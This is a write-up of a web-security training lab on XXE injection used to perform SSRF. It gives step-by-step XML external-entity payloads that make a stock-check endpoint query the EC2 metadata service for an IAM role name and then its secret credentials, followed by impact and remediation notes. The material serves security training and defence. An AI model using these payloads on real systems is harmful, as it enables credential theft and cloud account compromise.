



# Exploiting XXE to Perform SSRF Attacks

## Lab Information

* **Category:** XXE Injection
* **Lab Name:** Exploiting XXE to Perform SSRF Attacks
* **Difficulty:** Apprentice
* **Status:** Solved

---

## Objective

The application processes XML input through the **Check Stock** functionality. By injecting an external entity, it is possible to force the server to make requests to internal resources.

The goal is to exploit the XXE vulnerability to perform a Server-Side Request Forgery (SSRF) attack against the EC2 metadata service and retrieve the IAM secret access key.

---

## Vulnerability Overview

XML External Entity (XXE) vulnerabilities occur when an XML parser processes external entities supplied by the user.

An attacker can abuse this behavior to:

* Read local files
* Access internal services
* Perform SSRF attacks
* Exfiltrate sensitive information

In this lab, XXE is used to access the AWS-style metadata endpoint:

```text
http://169.254.169.254/
```

---

## Exploitation Steps

### Step 1 - Intercept Stock Check Request

1. Open any product page.
2. Click **Check Stock**.
3. Intercept the resulting XML request in Burp Suite.

### Screenshot


---

### Step 2 - Discover IAM Role

Insert the following XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

The response reveals the IAM role name.

Example response:

```text
Invalid product ID: admin
```

This indicates that the server has an IAM role named:

```text
admin
```

### Screenshot



---

### Step 3 - Retrieve IAM Credentials

Modify the external entity to target the discovered role:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE test [
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Send the request again.

The response returns AWS credential information including:

```json
{
  "Code": "Success",
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "..."
}
```

### Screenshot



---

### Step 4 - Lab Solved

After retrieving the IAM credentials, the lab is automatically solved.

### Screenshot



---

## Impact

An attacker can abuse XXE vulnerabilities to:

* Access internal network services
* Query cloud metadata endpoints
* Retrieve sensitive credentials
* Escalate privileges
* Perform SSRF attacks

In cloud environments, exposure of IAM credentials can lead to complete account compromise.

---

## Remediation

To prevent XXE vulnerabilities:

1. Disable external entity processing.
2. Use secure XML parsers.
3. Validate and sanitize XML input.
4. Implement network segmentation.
5. Restrict access to metadata services.
6. Use allowlists for outbound requests.

---

## Conclusion

The application was vulnerable to XML External Entity injection. By leveraging XXE to perform SSRF against the EC2 metadata endpoint, it was possible to enumerate the IAM role and retrieve sensitive cloud credentials, resulting in successful exploitation of the lab.
